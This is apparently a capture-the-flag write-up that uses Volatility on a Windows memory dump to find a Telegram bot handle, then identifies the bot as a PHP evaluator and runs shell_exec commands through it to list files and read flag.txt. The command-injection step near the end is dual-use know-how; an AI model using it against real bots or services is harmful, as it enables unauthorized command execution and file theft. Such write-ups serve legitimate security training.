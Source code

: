 # El Ephant's Tool writeup
We are given [archive](https://drive.google.com/file/d/1IBVHlHpqFqcIWWVffuEHVsWKwJqoaunA/view?usp=sharing) with **.vmem** file inside. Let's open it in **volatility**:

```bash
$ vol.py -f el_ephant.vmem imageinfo 
Volatility Foundation Volatility Framework 2.6.1
INFO     : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/tmp/el_ephant.vmem)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80002bf4120L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002bf6000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2021-10-18 19:00:29 UTC+0000
     Image local date and time : 2021-10-18 22:00:29 +0300
```

It's a Windows dump, which makes our life easier. List of the processes:

```bash
$ vol.py -f el_ephant.vmem --profile=Win7SP1x64 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa8008bd53c0:csrss.exe                         308    300      9    601 2021-10-18 18:38:07 UTC+0000
 0xfffffa8006cffb00:wininit.exe                       356    300      3     74 2021-10-18 18:38:07 UTC+0000
. 0xfffffa8008c4ab00:services.exe                     440    356     11    208 2021-10-18 18:38:08 UTC+0000
.. 0xfffffa8008d5db00:svchost.exe                     640    440      9    278 2021-10-18 18:38:10 UTC+0000
.. 0xfffffa8008d2fb00:svchost.exe                     576    440     12    355 2021-10-18 18:38:09 UTC+0000
.. 0xfffffa8008c76060:spoolsv.exe                    1132    440     16    271 2021-10-18 18:38:15 UTC+0000
.. 0xfffffa8006ee8b00:sppsvc.exe                     1932    440      4    144 2021-10-18 18:40:22 UTC+0000
.. 0xfffffa8009042130:taskhost.exe                   3888    440      5     94 2021-10-18 18:58:25 UTC+0000
.. 0xfffffa8006e6ab00:svchost.exe                    2464    440     13    365 2021-10-18 18:40:22 UTC+0000
.. 0xfffffa80081e4b00:svchost.exe                     816    440     21    453 2021-10-18 18:38:11 UTC+0000
... 0xfffffa8008c12060:dwm.exe                       1076    816      3     87 2021-10-18 18:38:15 UTC+0000
.. 0xfffffa8008309b00:SearchIndexer.                 1320    440     14    725 2021-10-18 18:38:27 UTC+0000
... 0xfffffa8006fc3060:SearchFilterHo                 964   1320      5     82 2021-10-18 19:00:16 UTC+0000
... 0xfffffa8008e3f2d0:SearchProtocol                3412   1320      5    217 2021-10-18 19:00:00 UTC+0000
.. 0xfffffa8008d91b00:svchost.exe                     688    440     29    575 2021-10-18 18:38:10 UTC+0000
... 0xfffffa8007914890:audiodg.exe                   3916    688      7    133 2021-10-18 18:56:31 UTC+0000
.. 0xfffffa8008556b00:wmpnetwk.exe                   2120    440     12    263 2021-10-18 18:38:38 UTC+0000
.. 0xfffffa80086785c0:svchost.exe                     844    440    176    886 2021-10-18 18:38:11 UTC+0000
.. 0xfffffa8008d5a060:svchost.exe                    1360    440     10    146 2021-10-18 18:38:17 UTC+0000
.. 0xfffffa8008c78060:svchost.exe                    1240    440     27    361 2021-10-18 18:38:16 UTC+0000
.. 0xfffffa8006e6e930:mscorsvw.exe                   1888    440      6     77 2021-10-18 18:40:22 UTC+0000
.. 0xfffffa8006d695f0:svchost.exe                    1872    440      6     94 2021-10-18 18:38:22 UTC+0000
.. 0xfffffa8008f41470:svchost.exe                     872    440     22    511 2021-10-18 18:38:14 UTC+0000
.. 0xfffffa8008e709b0:svchost.exe                     876    440     50   1003 2021-10-18 18:38:11 UTC+0000
.. 0xfffffa8008392060:svchost.exe                    1832    440     26    345 2021-10-18 18:38:32 UTC+0000
.. 0xfffffa8008cb4060:taskhost.exe                   1148    440      9    301 2021-10-18 18:38:15 UTC+0000
. 0xfffffa8008c5d8e0:lsass.exe                        448    356      6    612 2021-10-18 18:38:08 UTC+0000
. 0xfffffa8008c608e0:lsm.exe                          456    356     11    144 2021-10-18 18:38:08 UTC+0000
 0xfffffa8006cf8710:System                              4      0     79    537 2021-10-18 18:38:03 UTC+0000
. 0xfffffa8007f33b00:smss.exe                         228      4      2     29 2021-10-18 18:38:03 UTC+0000
 0xfffffa8008c35060:explorer.exe                     1092   1068     28    805 2021-10-18 18:38:15 UTC+0000
. 0xfffffa80079b56c0:iexplore.exe                     272   1092     13    550 2021-10-18 18:49:16 UTC+0000
.. 0xfffffa80083f8b00:iexplore.exe                   2976    272     99   1301 2021-10-18 18:55:14 UTC+0000
. 0xfffffa8006fdc350:notepad.exe                      280   1092      1     62 2021-10-18 18:56:11 UTC+0000
. 0xfffffa8006e11060:wmpnscfg.exe                    3148   1092      1      0 2021-10-18 19:00:28 UTC+0000
 0xfffffa8008c04b00:winlogon.exe                      408    348      3    113 2021-10-18 18:38:08 UTC+0000
 0xfffffa8008377b00:csrss.exe                         368    348      9    307 2021-10-18 18:38:07 UTC+0000
```

**notepad.exe** (pid=280) and **iexplore.exe** (pid=272) seem like something to explore.

```bash
$ vol.py -f /tmp/el_ephant.vmem --profile=Win7SP1x64 procdump -p 280 -D .
Volatility Foundation Volatility Framework 2.6.1
Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xfffffa8006fdc350 0x00000000ff120000 notepad.exe          Error: ImageBaseAddress at 0xff120000 is unavailable (possibly due to paging)

$ vol.py -f /tmp/el_ephant.vmem --profile=Win7SP1x64 procdump -p 272 -D .
Volatility Foundation Volatility Framework 2.6.1
Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xfffffa80079b56c0 0x000000013f2b0000 iexplore.exe         Error: ImageBaseAddress at 0x13f2b0000 is unavailable (possibly due to paging)
```

Bad luck :c

May be [memdump](https://github.com/volatilityfoundation/volatility/wiki/Command-Reference#memdump)?

```bash
$ vol.py -f /tmp/el_ephant.vmem --profile=Win7SP1x64 memdump -p 280 -D .
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing notepad.exe [   280] to 280.dmp

$ vol.py -f /tmp/el_ephant.vmem --profile=Win7SP1x64 memdump -p 272 -D .
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing iexplore.exe [   272] to 272.dmp
```

This one worked! Now we possess two process dumps. What can we find in 'em? There are several **telegram bot** references in the description. Let's give a try finding telegram handles (I mean something like "@sultanowskii"):

```bash
$ strings 280.dmp | grep -oE "@[a-zA-Z0-9 _]{3,}"
@ABCDEFGHIJKLMNOPQRSTUVWXYZ
@ABCDEFGHIJKLMNOPQRSTUVWXYZ
@0tL
@PtL
@0rL
@PrL
@PyL
@pyL
@ tL
@PhJ
@ rL
@phJ
@FLFFF
@rArBrCrDrErFrGrHrIrJq
@pApBpCpDpEpFpGpHpIpJpKpLpMpNpOpPpQpRpSpTpUpVpWpXpYpZp
@1A1B1C1D1F1E1H1G1I1J1K1L1M1N1O1
@1P1Q1R1S1T1U
@1A1B1C1D1E1F1G1H1I1J1K1L1
@OFOLOFOROXO
@PTN
@PZN
@FLFFF
@H9CP
@H9CPs
@H9CP
@H9CPsK
@H9CP
@H9CP
@A_A
...
```

Too much garbage. Adding "bot" in the end of regex (because we can only create telegram bots with "bot" in the end, according to [BotFather](https://t.me/BotFather)) helps us:

```bash
$ strings 280.dmp | grep -oE "@[a-zA-Z0-9 _]{3,}[bB][oO][tT]"
@ControllerBot
@ControllerBot is a great bot
@YTranslateBot
@iLyricsBot
@Elephant431TheCLIBot
@YTranslateBot
@GroupHelpBot
@FunctionsRobot
@Cryptowhalebot
```

After googling all the bots, we can conclude that the only not popular one is [@Elephant431TheCLIBot](https://t.me/Elephant431TheCLIBot).

Now it's time to play with this bot:

```bash
$ hello
Syntax error
hello
$ 2 + 2
4
```

Seems like some interactive mode. The most popular languages with this feature - **python**, **php**, **js**. Keep figuring out:

```bash
$ 'q' * 8
Syntax error
0
$ '1' == '1'
1
$ print("hi")
Syntax error
$ print('hi')
hi1
$ print(hi)
Syntax error
hi1
```

Aha! The `print()` function prints text even without brackets! A significant feature of php[^1]. The proof is here:

```bash
$ phpversion()
7.4.3
```

Not much work is left to do: 

```php
$ shell_exec('ls')
bot.py
flag.txt
requirements.txt
$ shell_exec('cat flag.txt')
li2CTF{El_Ephant's_p37_15_1nv1nc1bl3_70_rm_-rf!!!}
```

Flag: `li2CTF{El_Ephant's_p37_15_1nv1nc1bl3_70_rm_-rf!!!}`

[^1]: Bot's and challenge's name also refer to **php**:
<img src="https://quaded.com/data/php-logo.png"  width="400" />
